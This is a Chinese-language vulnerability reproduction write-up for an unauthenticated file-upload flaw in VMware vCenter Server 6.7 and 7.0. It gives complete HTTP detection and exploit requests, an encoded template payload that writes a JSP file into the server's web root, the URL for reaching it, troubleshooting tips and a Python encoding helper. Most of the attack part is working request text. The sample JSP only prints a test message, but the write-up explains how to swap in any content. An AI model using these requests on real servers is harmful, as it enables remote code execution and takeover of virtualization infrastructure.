

# 漏洞简述

能够网络访问vCenter Server 上的 443 端口的攻击者可以通过构造上传请求，上传恶意文件，获取服务器权限，在 vCenter Server 上远程执行代码。该漏洞无需经过身份验证即可远程利用，攻击复杂度低，且无需用户交互。

# 影响范围

VMware vCenter Server 7.0

VMware vCenter Server 6.7

# 漏洞复现

漏洞检测POST包：

```java
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=1231231&_i=456456 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
X-Deployment-Secret: test
Content-Type: application/json
Content-Length: 252

{ "manifestSpec":{},"objectType": "a2","collectionTriggerDataNeeded":  "True","deploymentDataNeeded":"True","resultNeeded": "True","signalCollectionCompleted":"True","localManifestPath": "a7",
"localPayloadPath": "a8","localObfuscationMapPath": "a9" }
```

返回包状态码为201，证明存在漏洞；

```java
HTTP/1.1 201 
Content-Length: 0
Date: Thu, 21 Oct 2021 06:30:07 GMT
Server: Apache
```

注：

- URL中的_c和_i，最好是随机生成，因若多次请求同一个站，这两个参数内容若与之前一样，无论网站是否存在漏洞，返回包状态码均固定为409；
- header头中的X-Deployment-Secret必须要有，Content-Type可以没有，但最好带着；

- data数据中的True，手工测试的时候，要用双引号引起来在；从脚本到手工复现，这个地方被坑了一会


漏洞poc/exp的POST包：

```java
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=1231231&_i=456456 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
Content-Type: application/json
X-Deployment-Secret: test
Content-Length: 3590


{"contextData": "a3", "manifestContent": "<manifest recommendedPageSize=\"500\">\r\n       <request>\r\n          <query name=\"vir:VCenter\">\r\n             <constraint>\r\n                <targetType>ServiceInstance</targetType>\r\n             </constraint>\r\n             <propertySpec>\r\n                <propertyNames>content.about.instanceUuid</propertyNames>\r\n                <propertyNames>content.about.osType</propertyNames>\r\n                <propertyNames>content.about.build</propertyNames>\r\n                <propertyNames>content.about.version</propertyNames>\r\n             </propertySpec>\r\n          </query>\r\n       </request>\r\n       <cdfMapping>\r\n          <indepedentResultsMapping>\r\n             <resultSetMappings>\r\n                <entry>\r\n                   <key>vir:VCenter</key>\r\n                   <value>\r\n                      <value xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xsi:type=\"resultSetMapping\">\r\n                         <resourceItemToJsonLdMapping>\r\n                            <forType>ServiceInstance</forType>\r\n                         <mappingCode><![CDATA[    \r\n                            #set($appender = $GLOBAL-logger.logger.parent.getAppender(\"LOGFILE\"))##\r\n                            #set($orig_log = $appender.getFile())##\r\n                            #set($logger = $GLOBAL-logger.logger.parent)##     \r\n                            $appender.setFile(\"/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/test.jsp\")##     \r\n                            $appender.activateOptions()##  \r\n                            $logger.warn(\"\u005c\u0075\u0030\u0030\u0033\u0063\u0025\u0040\u0020\u0070\u0061\u0067\u0065\u0020\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u0054\u0079\u0070\u0065\u003d\u005c\u0075\u0030\u0030\u0032\u0032\u0074\u0065\u0078\u0074\u002f\u0068\u0074\u006d\u006c\u003b\u0063\u0068\u0061\u0072\u0073\u0065\u0074\u003d\u0055\u0054\u0046\u002d\u0038\u005c\u0075\u0030\u0030\u0032\u0032\u0020\u006c\u0061\u006e\u0067\u0075\u0061\u0067\u0065\u003d\u005c\u0075\u0030\u0030\u0032\u0032\u006a\u0061\u0076\u0061\u005c\u0075\u0030\u0030\u0032\u0032\u0020\u0025\u005c\u0075\u0030\u0030\u0033\u0065\u000d\u000a\u005c\u0075\u0030\u0030\u0033\u0063\u0025\u0020\u006f\u0075\u0074\u002e\u0070\u0072\u0069\u006e\u0074\u0028\u005c\u0075\u0030\u0030\u0032\u0032\u0074\u0068\u0069\u0073\u0020\u0069\u0073\u0020\u0061\u0020\u0066\u0072\u0069\u0065\u006e\u0064\u006c\u0079\u0020\u0074\u0065\u0073\u0074\u002c\u0020\u0050\u006c\u0065\u0061\u0073\u0065\u0020\u0063\u0068\u0065\u0063\u006b\u0020\u0061\u006e\u0064\u0020\u0072\u0065\u0070\u0061\u0069\u0072\u0020\u0075\u0070\u006c\u006f\u0061\u0064\u0020\u0076\u0075\u006c\u006e\u0065\u0072\u0061\u0062\u0069\u006c\u0069\u0074\u0069\u0065\u0073\u002e\u005c\u0075\u0030\u0030\u0032\u0032\u0029\u003b\u0025\u005c\u0075\u0030\u0030\u0033\u0065\")##   \r\n                            $appender.setFile($orig_log)##     \r\n                            $appender.activateOptions()##]]>\r\n                         </mappingCode>\r\n                         </resourceItemToJsonLdMapping>\r\n                      </value>\r\n                   </value>\r\n                </entry>\r\n             </resultSetMappings>\r\n          </indepedentResultsMapping>\r\n       </cdfMapping>\r\n       <requestSchedules>\r\n          <schedule interval=\"1h\">\r\n             <queries>\r\n                <query>vir:VCenter</query>\r\n             </queries>\r\n          </schedule>\r\n       </requestSchedules>\r\n    </manifest>", "objectId": "a2"}
```

返回包状态码为200，并且返回如下内容证明上传成功；

```java
HTTP/1.1 200 
Content-Type: application/json;charset=ISO-8859-1
Content-Length: 120
Date: Thu, 21 Oct 2021 06:56:40 GMT
Server: Apache

{"@type":"collection_completed","collection_completed_timestamp":1634799400166,"@id":"2555d5f7f87941498c4b482b9e3e40a4"}
```

要访问的上传文件地址为:（ip、端口、文件名自行替换）

```java
https://ip:port/idm/..;/test.jsp
```

注：

- 此POST包要在上一步的检测POST包之后使用，并且URL中的_c和_i值，至少要是历史中的上一步请求过的（个人理解这两个参数是一个简单的验证），所以这里最好是随机生成，并且分别赋值给这两步中的两个参数，保证每次都是随机不重复，并且还是一样的；
- X-Deployment-Secret与Content-Type与上一步中一样；

- 作为文件上传，data数据中大部分内容不用变，只变动$appender.setFile和$logger.warn的内容，前者是更改路径的文件名，（上传后要访问的文件），后者是具体的poc/exp内容；
- 仔细看应该也能看出来，这部分最长的一段json的值，在"前边加了\，因为"冲突了。其中的poc/exp部分做了Unicode编码，并且<、>、"是做了两次Unicode编码的（或者不嫌传输内容过长的话，直接把全部的poc/exp的内容两次Unicode编码也可）。不做两次Unicode编码的话，上传上去的<、>、"会被实体化，导致无法解析；

- 亲测站长上的Unicode编码不好使，即使两次编码，传上去的文件依然无法解析。

附字符串转Unicode编码的脚本（二次及以上编码的话，编码后的内容再次当作字符串编码时，每个\要替换为\\）：

```java
string = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<% out.print("this is a friendly test, Please check and repair upload vulnerabilities.");%>"""

string_unicode = ""
for i in string:
    asc_chr = ord(i)
    print(i)
    aa = "\\u{:04x}".format(asc_chr)
    string_unicode = string_unicode + aa

print(string_unicode)
```

顺手记录一下上传后情景：




# poc/exp：

根据需求，自行注释切换poc还是exp，不过在输出上更严的做了poc的判断，没做exp是否成功的判断，建议先使用poc验证，再尝试exp，完事手工验证一下是否被拦截。

与手工验证利用不一样的地方，poc、exp部分的内容，只需要做一次Unicode编码即可。